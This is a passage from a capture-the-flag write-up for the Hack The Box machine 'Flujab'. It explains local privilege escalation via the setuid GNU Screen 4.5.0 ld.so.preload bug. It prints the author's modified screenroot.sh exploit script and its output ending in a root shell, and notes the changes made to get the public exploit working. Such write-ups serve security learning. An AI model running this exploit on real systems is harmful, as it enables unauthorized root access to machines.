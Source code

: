 This is neat. The idea here is we set the vulnerable screen log file to write our "libhax" shared library which is responsible for giving the root permissions to our shell we create later in the code. Next, we create that rootshell binary setting all permissions to root (it's able to do this because of libhax.so's root permissions). Once both files are created and compiled, we can dump the shared library to a file with root permissions and call our shell binary that spawns /bin/sh with root level access.

This won't work without modification for a number of reasons and required a good amount of editing. First, the victim machine's symlink to gcc was broken. I initially went down a path of fixing it, but other dependency issues arose, and it wasn't worth fixing the compiler on the victim machine when I could compile the same code locally. I simply copyed the c code from the exploit, compiled it on my attacking machine and sent the compiled binaries back to the victim machine. The next change required was the path to screen as the exploit uses the screen binary in PATH which won't work for us as pointed out earlier. I also ended up changing the path to my own directory with full permissions to avoid sticky bit issues as it was set in the /tmp directory. Althought I don't believe it should cause an issue, this just made it easier for me.

We're then left with this:

```text
sysadm@flujab:~/gimme$ cat screen.sh
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
/usr/local/share/screen/screen -D -m -L ld.so.preload echo -ne  "\x0a/home/sysadm/gimme/libhax.so" # newline needed
echo "[+] Triggering..."
/usr/local/share/screen/screen -ls # screen itself is setuid, so... 
/home/sysadm/gimme/rootshell
```

We run it and that's all she wrote:

```text
sysadm@flujab:~/gimme$ ./screen.sh 
~ gnu/screenroot ~
[+] First, we create our shell and library...
[+] Now we create our /etc/ld.so.preload file...
[+] Triggering...
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-sysadm.
#
```

We're dropped into what looks like a root shell. We can simply cat the root and user flag now:


[1]: https://www.hackthebox.eu/home/users/profile/6983
[2]: https://www.hackthebox.eu
[3]: https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/6/html/security_guide/sect-security_guide-tcp_wrappers_and_xinetd-tcp_wrappers_configuration_files